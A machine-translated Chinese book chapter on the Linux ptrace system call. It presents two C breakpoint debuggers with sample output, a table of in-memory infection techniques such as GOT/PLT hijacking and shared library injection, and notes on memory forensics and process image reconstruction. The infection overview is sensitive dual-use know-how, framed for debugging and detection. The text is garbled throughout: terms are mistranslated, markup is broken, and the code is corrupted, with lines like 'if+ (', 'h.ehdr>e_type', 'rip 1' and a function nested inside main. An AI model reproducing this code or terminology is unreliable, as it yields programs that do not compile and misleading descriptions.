


# 三、Linux 进程跟踪

在上一章中，我们介绍了`ELF`格式的内部结构，并解释了它的内部工作原理。 在 Linux 和其他使用`ELF`格式的 unix 操作系统中，`ptrace`系统调用与分析、调试、反向工程和修改使用`ELF`格式的程序密切相关。 系统调用用于附加到进程并访问代码、数据、堆栈、堆和寄存器的整个范围。

由于`ELF`程序完全映射到进程地址空间中，您可以附加到该进程并解析或修改`ELF`映像，这与您对磁盘上实际的`ELF`文件进行解析或修改的方式非常类似。 主要的区别是，我们使用`ptrace`来访问程序，而不是使用`open/mmap/read/write`调用来访问`ELF`文件。

有了`ptrace`，我们可以完全控制程序的执行流，这意味着我们可以做一些非常有趣的事情，从内存病毒感染和病毒分析/检测到用户域内存 rootkit、高级调试任务、热补丁和反向工程。 由于我们在这本书中有一整章专门讨论其中的一些任务，所以我们不会对每一个都进行深入讨论。 相反，我将提供一个入门教程，让您了解`ptrace`的一些基本功能以及黑客如何使用它。

# ptrace 的重要性

在 Linux 中，`ptrace(2)`系统调用是访问进程地址空间的用户方式。 这意味着某人可以附加到自己拥有的流程，并对其进行修改、分析、反向和调试。 众所周知的调试和分析应用，如`gdb`、`strace`和`ltrace`都是`ptrace`辅助应用。 `ptrace`命令对逆向工程师和恶意软件作者都非常有用。

它使程序员能够附加到进程和修改内存,包括注入代码和修改等重要数据结构**全局偏移表**(**)给共享库重定向。 在本节中，我们将介绍`ptrace`最常用的特性，从攻击者的角度演示内存感染，并通过编写程序将进程映像重构回可执行文件来进行进程分析。 如果你从来没有使用过`ptrace`，那么你会发现你已经错过了很多乐趣!**

 **# ptrace 请求

与任何其他系统调用一样，`ptrace`系统调用有一个`libc`包装器，因此您可以包括`ptrace.h`并在向其传递请求和进程 ID 时简单地调用`ptrace`。 下面的细节并不能替代`ptrace(2)`的主页，尽管有些描述是从主页中借用的。

这是剧情简介:

```sh
#include <sys/ptrace.h>
long ptrace(enum __ptrace_request request, pid_t pid,
void *addr, void *data);
```

## ptrace 请求类型

下面是使用`ptrace`与进程映像交互时最常用的请求列表:

<colgroup class="calibre15"><col class="calibre16"> <col class="calibre16"></colgroup> 
| 

请求

 | 

描述

 |
| --- | --- |
| `PTRACE_ATTACH` | 附加到`pid`中指定的进程，使其成为调用进程的跟踪器。 tracee 被发送一个`SIGSTOP`信号，但不一定在这个调用完成时停止。 使用`waitpid(2)`等待跟踪器停止。 |
| `PTRACE_TRACEME` | 指示该进程将由其父进程跟踪。 如果一个进程的父进程不希望跟踪它，那么它可能不应该发出这个请求。 |
| `PTRACE_PEEKTEXT PTRACE_PEEKDATA PTRACE_PEEKUSER` | 这些请求允许跟踪进程读取被跟踪进程映像中的虚拟内存地址; 例如，我们可以将整个文本或数据段读入缓冲区进行分析。请注意，`PEEKTEXT`、`PEEKDATA`和`PEEKUSER`请求的实现没有差异。 |
| `PTRACE_POKTEXT PTRACE_POKEDATA PTRACE_POKEUSER` | 这些请求允许跟踪进程修改被跟踪进程映像中的任何位置。 |
| `PTRACE_GETREGS` | 这个请求允许跟踪进程获得被跟踪进程的寄存器副本。 当然，每个线程上下文都有自己的寄存器集。 |
| `PTRACE_SETREGS` | 这个请求允许跟踪进程为跟踪进程设置新的寄存器值，例如，将指令指针的值修改为指向 shell 代码的值。 |
| `PTRACE_CONT` | 这个请求告诉停止的跟踪进程恢复执行。 |
| `PTRACE_DETACH` | 这个请求也会恢复跟踪进程，但也会分离。 |
| `PTRACE_SYSCALL` | 这个请求恢复跟踪进程，但安排它在下一次系统调用的入口/出口停止。 这允许我们检查系统调用的参数，甚至修改它们。 这个`ptrace`请求在名为`strace`的程序的代码中大量使用，`strace`是大多数 Linux 发行版附带的。 |
| `PTRACE_SINGLESTEP` | 此恢复进程，但在下一个指令之后停止它。 单步执行允许调试器在执行每条指令后停止。 这允许用户在每条指令之后检查寄存器的值和进程的状态。 |
| `PTRACE_GETSIGINFO` | 这个检索导致停止的信号的信息。 它检索了`siginfo_t`结构的一个副本，我们可以对其进行分析或修改(使用`PTRACE_SETSIGINFO`)并将其发送回 tracee。 |
| `PTRACE_SETSIGINFO` | 设置信号信息。 从跟踪程序中的地址数据复制一个`siginfo_t`结构到跟踪程序。 这将只影响正常情况下将发送给跟踪器并将被跟踪器捕获的信号。 将这些正常信号与`ptrace()`自身产生的合成信号区分开来可能比较困难(忽略`addr`)。 |
| `PTRACE_SETOPTIONS` | 从数据中设置`ptrace`选项(忽略`addr`)。 Data 被解释为选项的位掩码。 这些是在下一节中由标志指定的(请查看`ptrace(2)`的主页以获取列表)。 |

*这个词示踪*指的是过程进行跟踪(即调用`ptrace`),*和项 tracee*或【显示】跟踪意味着正在追踪的程序示踪(`ptrace`)。

### 注意事项

默认行为覆盖任何 mmap 或 mprotect 权限。 这意味着用户可以使用`ptrace`写入文本段(即使它是只读的)。 如果内核是 pax 或 grsec 并修补了 mprotect 限制，这是不正确的，它强制段权限，以便它们也适用于`ptrace`; 这是一个安全特性。

我在[http://vxheavens.com/lib/vrn00.html](http://vxheavens.com/lib/vrn00.html)中关于*ELF 运行时感染*的论文讨论了绕过这些代码注入限制的一些方法。

# 进程寄存器状态和标志

`x86_64`的`user_regs_struct`结构包含通用寄存器、分段寄存器、堆栈指针、指令指针、CPU 标志和 TLS 寄存器:

```sh
<sys/user.h>
struct user_regs_struct
{
  __extension__ unsigned long long int r15;
  __extension__ unsigned long long int r14;
  __extension__ unsigned long long int r13;
  __extension__ unsigned long long int r12;
  __extension__ unsigned long long int rbp;
  __extension__ unsigned long long int rbx;
  __extension__ unsigned long long int r11;
  __extension__ unsigned long long int r10;
  __extension__ unsigned long long int r9;
  __extension__ unsigned long long int r8;
  __extension__ unsigned long long int rax;
  __extension__ unsigned long long int rcx;
  __extension__ unsigned long long int rdx;
  __extension__ unsigned long long int rsi;
  __extension__ unsigned long long int rdi;
  __extension__ unsigned long long int orig_rax;
  __extension__ unsigned long long int rip;
  __extension__ unsigned long long int cs;
  __extension__ unsigned long long int eflags;
  __extension__ unsigned long long int rsp;
  __extension__ unsigned long long int ss;
  __extension__ unsigned long long int fs_base;
  __extension__ unsigned long long int gs_base;
  __extension__ unsigned long long int ds;
  __extension__ unsigned long long int es;
  __extension__ unsigned long long int fs;
  __extension__ unsigned long long int gs;
};
```

在 32 位的 Linux 内核,`%gs`**用作线程本地存储**(【显示】**TLS)指针,虽然自`x86_64`,`%fs`注册已被用于此目的。 使用来自`user_regs_struct`的寄存器并使用`ptrace`对进程的内存进行读写访问，我们可以完全控制它。 作为练习，让我们编写一个简单的调试器，它允许我们在程序中的某个函数上设置断点。 当程序运行时，它将在断点处停止并打印寄存器值和函数参数。**

# 一个简单的基于实践的调试器

让我们看一个代码示例，使用`ptrace`创建一个调试器程序:

```sh
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <signal.h>
#include <elf.h>
#include <sys/types.h>
#include <sys/user.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/mman.h>

typedef struct handle {
  Elf64_Ehdr *ehdr;
  Elf64_Phdr *phdr;
  Elf64_Shdr *shdr;
  uint8_t *mem;
  char *symname;
  Elf64_Addr symaddr;
  struct user_regs_struct pt_reg;
  char *exec;
} handle_t;

Elf64_Addr lookup_symbol(handle_t *, const char *);

int main(int argc, char **argv, char **envp)
{
  int fd;
  handle_t h;
  struct stat st;
  long trap, orig;
  int status, pid;
  char * args[2];
  if (argc < 3) {
    printf("Usage: %s <program> <function>\n", argv[0]);
    exit(0);
  }
  if ((h.exec = strdup(argv[1])) == NULL) {
    perror("strdup");
    exit(-1);
  }
  args[0] = h.exec;
  args[1] = NULL;
  if ((h.symname = strdup(argv[2])) == NULL) {
    perror("strdup");
    exit(-1);
  }
  if ((fd = open(argv[1], O_RDONLY)) < 0) {
    perror("open");
    exit(-1);
  }
  if (fstat(fd, &st) < 0) {
    perror("fstat");
    exit(-1);
  }
  h.mem = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
  if (h.mem == MAP_FAILED) {
    perror("mmap");
    exit(-1);
  }
  h.ehdr = (Elf64_Ehdr *)h.mem;
  h.phdr = (Elf64_Phdr *)(h.mem + h.ehdr->e_phoff);
  h.shdr = (Elf64_Shdr *)(h.mem + h.ehdr->e_shoff);
  if+ (h.mem[0] != 0x7f || strcmp((char *)&h.mem[1], "ELF")) {
    printf("%s is not an ELF file\n",h.exec);
    exit(-1);
  }
  if (h.ehdr->e_type != ET_EXEC) {
    printf("%s is not an ELF executable\n", h.exec);
    exit(-1);
  }
  if (h.ehdr->e_shstrndx == 0 || h.ehdr->e_shoff == 0 || h.ehdr->e_shnum == 0) {
    printf("Section header table not found\n");
    exit(-1);
  }
  if ((h.symaddr = lookup_symbol(&h, h.symname)) == 0) {
    printf("Unable to find symbol: %s not found in executable\n", h.symname);
    exit(-1);
  }
  close(fd);
  if ((pid = fork()) < 0) {
    perror("fork");
    exit(-1);
  }
  if (pid == 0) {
    if (ptrace(PTRACE_TRACEME, pid, NULL, NULL) < 0) {
      perror("PTRACE_TRACEME");
      exit(-1);
    }
    execve(h.exec, args, envp);
    exit(0);
  }
  wait(&status);
  printf("Beginning analysis of pid: %d at %lx\n", pid, h.symaddr);
  if ((orig = ptrace(PTRACE_PEEKTEXT, pid, h.symaddr, NULL)) < 0) {
    perror("PTRACE_PEEKTEXT");
    exit(-1);
  }
  trap = (orig & ~0xff) | 0xcc;
  if (ptrace(PTRACE_POKETEXT, pid, h.symaddr, trap) < 0) {
    perror("PTRACE_POKETEXT");
    exit(-1);
  }
  trace:
  if (ptrace(PTRACE_CONT, pid, NULL, NULL) < 0) {
    perror("PTRACE_CONT");
    exit(-1);
  }
  wait(&status);
  if (WIFSTOPPED(status) && WSTOPSIG(status) == SIGTRAP) {
    if (ptrace(PTRACE_GETREGS, pid, NULL, &h.pt_reg) < 0) {
      perror("PTRACE_GETREGS");
      exit(-1);
    }
    printf("\nExecutable %s (pid: %d) has hit breakpoint 0x%lx\n",
    h.exec, pid, h.symaddr);
    printf("%%rcx: %llx\n%%rdx: %llx\n%%rbx: %llx\n"
    "%%rax: %llx\n%%rdi: %llx\n%%rsi: %llx\n"
    "%%r8: %llx\n%%r9: %llx\n%%r10: %llx\n"
    "%%r11: %llx\n%%r12 %llx\n%%r13 %llx\n"
    "%%r14: %llx\n%%r15: %llx\n%%rsp: %llx",
    h.pt_reg.rcx, h.pt_reg.rdx, h.pt_reg.rbx,
    h.pt_reg.rax, h.pt_reg.rdi, h.pt_reg.rsi,
    h.pt_reg.r8, h.pt_reg.r9, h.pt_reg.r10,
    h.pt_reg.r11, h.pt_reg.r12, h.pt_reg.r13,
    h.pt_reg.r14, h.pt_reg.r15, h.pt_reg.rsp);
    printf("\nPlease hit any key to continue: ");
    getchar();
    if (ptrace(PTRACE_POKETEXT, pid, h.symaddr, orig) < 0) {
      perror("PTRACE_POKETEXT");
      exit(-1);
    }
    h.pt_reg.rip = h.pt_reg.rip - 1;
    if (ptrace(PTRACE_SETREGS, pid, NULL, &h.pt_reg) < 0) {
      perror("PTRACE_SETREGS");
      exit(-1);
    }
    if (ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL) < 0) {
      perror("PTRACE_SINGLESTEP");
      exit(-1);
    }
    wait(NULL);
    if (ptrace(PTRACE_POKETEXT, pid, h.symaddr, trap) < 0) {
      perror("PTRACE_POKETEXT");
      exit(-1);
    }
    goto trace;
    }
    if (WIFEXITED(status))
    printf("Completed tracing pid: %d\n", pid);
    exit(0);
  }

  Elf64_Addr lookup_symbol(handle_t *h, const char *symname)
  {
    int i, j;
    char *strtab;
    Elf64_Sym *symtab;
    for (i = 0; i < h->ehdr->e_shnum; i++) {
      if (h->shdr[i].sh_type == SHT_SYMTAB) {
        strtab = (char *)&h->mem[h->shdr[h->shdr[i].sh_link].sh_offset];
        symtab = (Elf64_Sym *)&h->mem[h->shdr[i].sh_offset];
        for (j = 0; j < h->shdr[i].sh_size/sizeof(Elf64_Sym); j++) {
          if(strcmp(&strtab[symtab->st_name], symname) == 0)
          return (symtab->st_value);
          symtab++;
        }
      }
    }
  return 0;
  }
}
```

## 使用跟踪程序

要编译前面的源代码，可以使用以下命令:

```sh
gcc tracer.c –o tracer

```

请记住，`tracer.c`通过查找并引用`SHT_SYMTAB`类型的 section 头来定位符号表，因此它将无法在被剥夺了`SHT_SYMTAB`符号表的可执行文件上工作(尽管它们可能有`SHT_DYNSYM`)。 这实际上是有意义的，因为通常我们在调试仍处于开发阶段的程序，所以它们通常有一个完整的符号表。

另一个限制是，它不允许向正在执行和跟踪的程序传递参数。 因此，在实际的调试情况下，它不会做得很好，在这种情况下，您可能需要将开关或命令行选项传递给正在调试的程序。

作为我们设计的`./tracer`程序的一个示例，让我们在一个非常简单的程序上进行尝试，该程序两次调用名为`print_string(char *)`的函数，并在第一轮传递`Hello 1`字符串，在第二次传递`Hello 2`字符串。

下面是使用`./tracer`代码的示例:

```sh
$ ./tracer ./test print_string
Beginning analysis of pid: 6297 at 40057d
Executable ./test (pid: 6297) has hit breakpoint 0x40057d
%rcx: 0
%rdx: 7fff4accbf18
%rbx: 0
%rax: 400597
%rdi: 400644
%rsi: 7fff4accbf08
%r8: 7fd4f09efe80
%r9: 7fd4f0a05560
%r10: 7fff4accbcb0
%r11: 7fd4f0650dd0
%r12 400490
%r13 7fff4accbf00
%r14: 0
%r15: 0
%rsp: 7fff4accbe18
Please hit any key to continue: c
Hello 1
Executable ./test (pid: 6297) has hit breakpoint 0x40057d
%rcx: ffffffffffffffff
%rdx: 7fd4f09f09e0
%rbx: 0
%rax: 9
%rdi: 40064d
%rsi: 7fd4f0c14000
%r8: ffffffff
%r9: 0
%r10: 22
%r11: 246
%r12 400490
%r13 7fff4accbf00
%r14: 0
%r15: 0
%rsp: 7fff4accbe18
Hello 2
Please hit any key to continue: Completed tracing pid: 6297

```

如您所见，在`print_string`上设置了断点，每次调用该函数时，我们的`./tracer`程序捕获陷阱，打印寄存器值，然后在遇到一个字符后继续执行。 `./tracer`程序是一个很好的例子，说明了`gdb`这样的调试器是如何工作的。 尽管它要简单得多，但它演示了流程跟踪、断点和符号查找。

如果您想执行一个程序并同时跟踪它，那么这个程序就非常有用。 但是跟踪一个已经在运行的进程呢? 在这种情况下，我们希望使用`PTRACE_ATTACH`附加到进程映像。 该请求将`SIGSTOP`发送到我们要附加到的进程，因此我们使用`wait`或`waitpid`来等待进程停止。

# 一个简单的 ptrace 调试器，具有进程附加功能

让我们看看一个代码示例:

```sh
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <signal.h>
#include <elf.h>
#include <sys/types.h>
#include <sys/user.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/mman.h>

typedef struct handle {
  Elf64_Ehdr *ehdr;
  Elf64_Phdr *phdr;
  Elf64_Shdr *shdr;
  uint8_t *mem;
  char *symname;
  Elf64_Addr symaddr;
  struct user_regs_struct pt_reg;
  char *exec;
} handle_t;

int global_pid;
Elf64_Addr lookup_symbol(handle_t *, const char *);
char * get_exe_name(int);
void sighandler(int);
#define EXE_MODE 0
#define PID_MODE 1

int main(int argc, char **argv, char **envp)
{
  int fd, c, mode = 0;
  handle_t h;
  struct stat st;
  long trap, orig;
  int status, pid;
  char * args[2];

    printf("Usage: %s [-ep <exe>/<pid>]
    [f <fname>]\n", argv[0]);

  memset(&h, 0, sizeof(handle_t));
  while ((c = getopt(argc, argv, "p:e:f:")) != -1)
  {
  switch(c) {
    case 'p':
    pid = atoi(optarg);
    h.exec = get_exe_name(pid);
    if (h.exec == NULL) {
      printf("Unable to retrieve executable path for pid: %d\n",
      pid);
      exit(-1);
    }
    mode = PID_MODE;
    break;
    case 'e':
    if ((h.exec = strdup(optarg)) == NULL) {
      perror("strdup");
      exit(-1);
    }
    mode = EXE_MODE;
    break;
    case 'f':
    if ((h.symname = strdup(optarg)) == NULL) {
      perror("strdup");
      exit(-1);
    }
    break;
    default:
    printf("Unknown option\n");
    break;
  }
}
if (h.symname == NULL) {
  printf("Specifying a function name with -f
  option is required\n");
  exit(-1);
}
if (mode == EXE_MODE) {
  args[0] = h.exec;
  args[1] = NULL;
}
signal(SIGINT, sighandler);
if ((fd = open(h.exec, O_RDONLY)) < 0) {
  perror("open");
  exit(-1);
}
if (fstat(fd, &st) < 0) {
  perror("fstat");
  exit(-1);
}
h.mem = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
if (h.mem == MAP_FAILED) {
  perror("mmap");
  exit(-1);
}
h.ehdr = (Elf64_Ehdr *)h.mem;
h.phdr = (Elf64_Phdr *)(h.mem + h.ehdr>
h.shdr = (Elf64_Shdr *)(h.mem + h.ehdr>

if (h.mem[0] != 0x7f &&!strcmp((char *)&h.mem[1], "ELF")) {
  printf("%s is not an ELF file\n",h.exec);
  exit(-1);
}
if (h.ehdr>e_type != ET_EXEC) {
  printf("%s is not an ELF executable\n", h.exec);
  exit(-1);
}
if (h.ehdr->e_shstrndx == 0 || h.ehdr->e_shoff == 0 || h.ehdr->e_shnum == 0) {
  printf("Section header table not found\n");
  exit(-1);
}
if ((h.symaddr = lookup_symbol(&h, h.symname)) == 0) {
  printf("Unable to find symbol: %s not found in executable\n", h.symname);
  exit(-1);
}
close(fd);
if (mode == EXE_MODE) {
  if ((pid = fork()) < 0) {
    perror("fork");
    exit(-1);
  }
  if (pid == 0) {
    if (ptrace(PTRACE_TRACEME, pid, NULL, NULL) < 0) {
      perror("PTRACE_TRACEME");
      exit(-1);
    }
    execve(h.exec, args, envp);
    exit(0);
  }
} else { // attach to the process 'pid'
  if (ptrace(PTRACE_ATTACH, pid, NULL, NULL) < 0) {
    perror("PTRACE_ATTACH");
    exit(-1);
  }
}
wait(&status); // wait tracee to stop
global_pid = pid;
printf("Beginning analysis of pid: %d at %lx\n", pid, h.symaddr);
// Read the 8 bytes at h.symaddr
if ((orig = ptrace(PTRACE_PEEKTEXT, pid, h.symaddr, NULL)) < 0) {
  perror("PTRACE_PEEKTEXT");
  exit(-1);
}

// set a break point
trap = (orig & ~0xff) | 0xcc;
if (ptrace(PTRACE_POKETEXT, pid, h.symaddr, trap) < 0) {
  perror("PTRACE_POKETEXT");
  exit(-1);
}
// Begin tracing execution
trace:
if (ptrace(PTRACE_CONT, pid, NULL, NULL) < 0) {
  perror("PTRACE_CONT");
  exit(-1);
}
wait(&status);

/*
    * If we receive a SIGTRAP then we presumably hit a break
    * Point instruction. In which case we will print out the
    *current register state.
*/
if (WIFSTOPPED(status) && WSTOPSIG(status) == SIGTRAP) {
  if (ptrace(PTRACE_GETREGS, pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_GETREGS");
    exit(-1);
  }
  printf("\nExecutable %s (pid: %d) has hit breakpoint 0x%lx\n", h.exec, pid, h.symaddr);
  printf("%%rcx: %llx\n%%rdx: %llx\n%%rbx: %llx\n"
  "%%rax: %llx\n%%rdi: %llx\n%%rsi: %llx\n"
  "%%r8: %llx\n%%r9: %llx\n%%r10: %llx\n"
  "%%r11: %llx\n%%r12 %llx\n%%r13 %llx\n"
  "%%r14: %llx\n%%r15: %llx\n%%rsp: %llx",
  h.pt_reg.rcx, h.pt_reg.rdx, h.pt_reg.rbx,
  h.pt_reg.rax, h.pt_reg.rdi, h.pt_reg.rsi,
  h.pt_reg.r8, h.pt_reg.r9, h.pt_reg.r10,
  h.pt_reg.r11, h.pt_reg.r12, h.pt_reg.r13,
  h.pt_reg.r14, h.pt_reg.r15, h.pt_reg.rsp);
  printf("\nPlease hit any key to continue: ");
  getchar();
  if (ptrace(PTRACE_POKETEXT, pid, h.symaddr, orig) < 0) {
    perror("PTRACE_POKETEXT");
    exit(-1);
  }
  h.pt_reg.rip = h.pt_reg.rip 1;
  if (ptrace(PTRACE_SETREGS, pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_SETREGS");
  exit(-1);
  }
  if (ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL) < 0) {
    perror("PTRACE_SINGLESTEP");
    exit(-1);
  }
  wait(NULL);
  if (ptrace(PTRACE_POKETEXT, pid, h.symaddr, trap) < 0) {
    perror("PTRACE_POKETEXT");
    exit(-1);
  }
  goto trace;
}
if (WIFEXITED(status)){
  printf("Completed tracing pid: %d\n", pid);
  exit(0);
}

/* This function will lookup a symbol by name, specifically from
 * The .symtab section, and return the symbol value.
 */

Elf64_Addr lookup_symbol(handle_t *h, const char *symname)
{
  int i, j;
  char *strtab;
  Elf64_Sym *symtab;
  for (i = 0; i < h->ehdr->e_shnum; i++) {
    if (h->shdr[i].sh_type == SHT_SYMTAB) {
      strtab = (char *)
      &h->mem[h->shdr[h->shdr[i].sh_link].sh_offset];
      symtab = (Elf64_Sym *)
      &h->mem[h->shdr[i].sh_offset];
      for (j = 0; j < h>
      shdr[i].sh_size/sizeof(Elf64_Sym); j++) {
        if(strcmp(&strtab[symtab->st_name], symname) == 0)
        return (symtab->st_value);
        symtab++;
      }
    }
  }
  return 0;
}

/*
* This function will parse the cmdline proc entry to retrieve
* the executable name of the process.
*/
char * get_exe_name(int pid)
{
  char cmdline[255], path[512], *p;
  int fd;
  snprintf(cmdline, 255, "/proc/%d/cmdline", pid);
  if ((fd = open(cmdline, O_RDONLY)) < 0) {
    perror("open");
    exit(-1);
  }
  if (read(fd, path, 512) < 0) {
    perror("read");
    exit(-1);
  }
  if ((p = strdup(path)) == NULL) {
    perror("strdup");
    exit(-1);
  }
  return p;
}
void sighandler(int sig)
{
  printf("Caught SIGINT: Detaching from %d\n", global_pid);
  if (ptrace(PTRACE_DETACH, global_pid, NULL, NULL) < 0 && errno) {
    perror("PTRACE_DETACH");
    exit(-1);
  }
  exit(0);
}
```

使用`./tracer`(版本 2)，我们现在可以连接到一个已经运行的进程，然后在所需的函数上设置断点，并跟踪执行。 下面是一个跟踪程序的例子，该程序使用`print_string(char *s);`在循环中打印`Hello 1`字符串 20 次:

```sh
ryan@elfmaster:~$ ./tracer -p `pidof ./test2` -f print_string
Beginning analysis of pid: 7075 at 4005bd
Executable ./test2 (pid: 7075) has hit breakpoint 0x4005bd
%rcx: ffffffffffffffff
%rdx: 0
%rbx: 0
%rax: 0
%rdi: 4006a4
%rsi: 7fffe93670e0
%r8: 7fffe93671f0
%r9: 0
%r10: 8
%r11: 246
%r12 4004d0
%r13 7fffe93673b0
%r14: 0
%r15: 0
%rsp: 7fffe93672b8
Please hit any key to continue: c
Executable ./test2 (pid: 7075) has hit breakpoint 0x4005bd
%rcx: ffffffffffffffff
%rdx: 0
%rbx: 0
%rax: 0
%rdi: 4006a4
%rsi: 7fffe93670e0
%r8: 7fffe93671f0
%r9: 0
%r10: 8
%r11: 246
%r12 4004d0
%r13 7fffe93673b0
%r14: 0
%r15: 0
%rsp: 7fffe93672b8
^C
Caught SIGINT: Detaching from 7452

```

因此，我们已经完成了简单的调试软件的编码，该软件既可以执行程序，又可以跟踪程序，或者附加到一个已有的进程，并跟踪程序。 这演示了 ptrace 最常见的用例类型，您编写的使用 ptrace 的大多数其他程序都是*trace .c*代码中技术的变体。

# 高级功能跟踪软件

2013 年，我设计了一个工具跟踪函数调用。 它与`strace`和`ltrace`非常相似，但它没有跟踪`syscalls`或库调用，而是跟踪从可执行文件中发出的每个函数调用。 这个工具已经在[第 2 章](2.html#I3QM1-1d4163ae11644cc2802846625b2dc985 "Chapter 2. The ELF Binary Format")，*ELF 二进制格式*中介绍过，但是它与`ptrace`的主题相当相关。 这是因为它完全依赖于`ptrace`，并使用控制流监视执行一些非常糟糕的动态分析。 源代码可以在 GitHub 上找到:

[https://github.com/leviathansecurity/ftrace](https://github.com/leviathansecurity/ftrace)

# ptrace 和法医学分析

`ptrace()`命令是系统调用，最常用于用户区域的内存分析。 事实上,如果你是设计取证软件运行在用户态,它可以访问其他进程内存的唯一途径是通过`ptrace`系统调用,或通过阅读`proc`文件系统(当然,除非程序有某种类型的显式设置共享内存 IPC)。

### 注意事项

可以附加到进程上，然后将`open/lseek/read/write /proc/<pid>/mem`作为`ptrace`读写语义的替代。

2011 年，我获得了美国国防部高级研究计划局(DARPA) CFT (Cyber Fast Track)项目的一份合同，设计一款名为*Linux VMA 监视器*的产品。 此软件的目的是检测广泛的已知和未知进程内存感染，如 rootkit 和内存驻留病毒。

它本质上是使用理解`ELF`执行的特殊启发式方法，对每个进程地址空间执行自动智能内存取证分析。 它可以发现异常或寄生虫，如被劫持的功能和通用代码感染。 该软件可以分析活动内存并作为主机入侵检测系统工作，也可以对进程内存进行快照并对其进行分析。 该软件还可以检测并消毒磁盘上感染病毒的`ELF`二进制文件。

软件中大量使用了`ptrace`系统调用，并围绕`ELF`二进制和`ELF`运行时感染演示了许多有趣的代码。 我还没有发布源代码，因为我打算在发布之前提供一个更适合生产的版本。 在本文中，我们将涵盖*Linux VMA Monitor*可以检测/消毒的几乎所有感染类型，并且我们将讨论和演示用于识别这些感染的启发式方法。

十多年来，黑客一直在进程内存中隐藏复杂的恶意软件，以保持隐蔽。 这可能是共享库注入和 GOT 中毒的组合，或者是任何其他技术集。 系统管理员发现这些攻击的机会非常小，特别是因为没有很多公开可用的软件来检测这些攻击。

我已经发布了几个工具，包括但不限于 AVU 和 ECFS，它们都可以在 GitHub 和我的网站[http://bitlackeys.org/](http://bitlackeys.org/)上找到。 任何其他软件都是高度专门化和私人使用的，或者它根本就不存在。 与此同时，优秀的取证分析师可以使用调试器或编写定制软件来检测此类恶意软件，了解您在寻找什么以及为什么要寻找这些软件是很重要的。 因为这一章都是关于 ptrace 的，所以我想强调它是如何与法医分析联系在一起的。 确实如此，特别是对于那些对设计专门的软件以识别内存中的威胁感兴趣的人来说。

在本章的最后，我们将看到如何编写一个程序来检测运行中的软件中的蹦床函数。

## 在记忆中寻找什么

除了对数据段变量、全局偏移表、函数指针和未初始化变量(即`.bss`段)的更改以外，`ELF`可执行文件在内存中的更改与在磁盘中的更改几乎相同。

这意味着在`ELF`二进制文件中使用的许多病毒或 rootkit 技术也可以应用于进程(运行时代码)，因此它们对攻击者保持隐藏更好。 我们将在整本书中深入讨论所有这些常见的感染载体，但这里是一些已被用于实现感染代码的技术的列表:

<colgroup class="calibre15"><col class="calibre16"> <col class="calibre16"> <col class="calibre16"></colgroup> 
| 

感染技术

 | 

预期结果

 | 

居住类型

 |
| --- | --- | --- |
| 有感染 | 劫持共享库函数 | 进程内存或可执行文件 |
| **操作联动表**(**PLT**)感染 | 劫持共享库函数 | 进程内存或可执行文件 |
| `.ctors`/`.dtors`功能指针修改 | 将控制流更改为恶意代码 | 进程内存或可执行文件 |
| 函数蹦床 | 劫持任何函数 | 进程内存或可执行文件 |
| 共享库注入 | 插入恶意代码 | 进程内存或可执行文件 |
| 浮动代码注入 | 插入恶意代码 | 进程内存或可执行文件 |
| 直接修改文本段 | 插入恶意代码 | 进程内存或可执行文件 |
| 进程占有(将整个程序注入地址空间) | 运行隐藏在现有进程中的完全不同的可执行程序 | 进程内存 |

使用`ELF`格式解析、`/proc/<pid>/maps`和`ptrace`的组合，可以创建一组启发式方法来检测前面的每一种技术，并创建一个反方法来消除所谓的寄生代码。 我们将深入研究所有这些技术的书,主要在第四章,*精灵病毒技术——Linux / Unix 病毒*和[第六章【显示】,*精灵二进制取证在 Linux 中*。](6.html#1P71O2-1d4163ae11644cc2802846625b2dc985 "Chapter 6. ELF Binary Forensics in Linux")

# 处理图像重建-从内存到可执行文件

使用`ELF`格式和`ptrace`来测试我们能力的一个简单练习是设计一个能够将进程映像重构回可执行文件的软件。 这对于我们在系统上发现可疑程序的取证工作尤其有用。 **扩展核心文件快照**(**ECFS**)技术能够做到这一点，并将该功能扩展为一种创新的取证和调试格式，向后兼容传统 Linux 核心文件的格式。 这可以在[https://github.com/elfmaster/ecfs](https://github.com/elfmaster/ecfs)上找到，并在本书[第八章](8.html#26I9K1-1d4163ae11644cc2802846625b2dc985 "Chapter 8. ECFS – Extended Core File Snapshot Technology")，*ECFS - Extended Core File Snapshot Technology*中有进一步的说明。 昆雅也有这个功能，可以在[http://www.bitlackeys.org/projects/quenya_32bit.tgz](http://www.bitlackeys.org/projects/quenya_32bit.tgz)下载。

## 流程可执行重构的挑战

为了将流程重新构建为可执行程序，我们必须首先考虑所涉及的挑战，因为有无数的事情需要考虑。 有一种特定类型的变量是我们无法控制的，它们是初始化数据中的全局变量。 它们可能在运行时被更改为代码指定的变量，我们将无法知道在运行时之前它们应该被初始化为什么。 我们甚至不能通过静态代码分析来发现这一点。

以下是可执行重构的目标:

*   以进程 ID 作为参数，并将该进程映像重构回其可执行文件状态
*   我们应该构造一个最小的节头集，以便程序可以通过`objdump`和`gdb`等工具以更高的精度进行分析

## 可执行重构的挑战

完全可执行重构是可能的，但它带来了一些挑战，特别是在重构动态链接的可执行文件时。 在这里，我们将讨论主要的挑战是什么，以及每个挑战的一般解决方案是什么。

### PLT/GOT 完整性

